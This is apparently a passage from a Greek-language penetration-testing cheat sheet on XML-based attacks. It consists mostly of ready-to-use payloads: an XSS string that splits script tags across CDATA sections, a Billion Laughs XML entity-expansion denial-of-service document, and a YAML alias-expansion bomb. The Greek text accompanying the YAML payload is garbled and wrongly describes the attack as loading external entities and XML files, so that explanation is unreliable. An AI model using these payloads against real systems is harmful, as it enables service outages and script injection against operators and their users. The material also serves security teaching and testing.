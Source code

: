 ### XSS
```xml
<![CDATA[<]]>script<![CDATA[>]]>alert(1)<![CDATA[<]]>/script<![CDATA[>]]>
```
### DoS

#### Επίθεση Billion Laugh
```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```
#### Επίθεση Yaml

YAML (YAML Ain't Markup Language) είναι μια ανθρώπινα αναγνώσιμη γλώσσα περιγραφής δεδομένων. Χρησιμοποιείται συχνά για την αναπαράσταση δεδομένων σε μορφή δομημένου κειμένου. Ωστόσο, οι επιθέσεις YAML μπορούν να εκμεταλλευτούν τις ευπάθειες του συστήματος και να προκαλέσουν διάφορα προβλήματα ασφάλειας.

Μια από τις επιθέσεις YAML είναι η επίθεση Yaml. Αυτή η επίθεση εκμεταλλεύεται την ικανότητα του YAML να αναφέρεται σε εξωτερικές οντότητες και να φορτώνει αρχεία XML από απομακρυσμένες πηγές. Αυτό μπορεί να οδηγήσει σε διάφορες ευπάθειες, όπως αποκάλυψη ευαίσθητων πληροφοριών, εκτέλεση κακόβουλου κώδικα ή αποκάλυψη αρχείων στον εξυπηρετητή.

Για να προστατευθείτε από αυτήν την επίθεση, πρέπει να ελέγξετε την είσοδο YAML και να αποτρέψετε τη φόρτωση εξωτερικών οντοτήτων ή αρχείων XML από απομακρυσμένες πηγές. Επίσης, είναι σημαντικό να εφαρμόσετε τις σωστές πρακτικές ασφαλείας για την επεξεργασία και αποθήκευση των δεδομένων YAML.
```xml
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```
#### Επίθεση Quadratic Blowup

![](<../.gitbook/assets/image (531).png>)
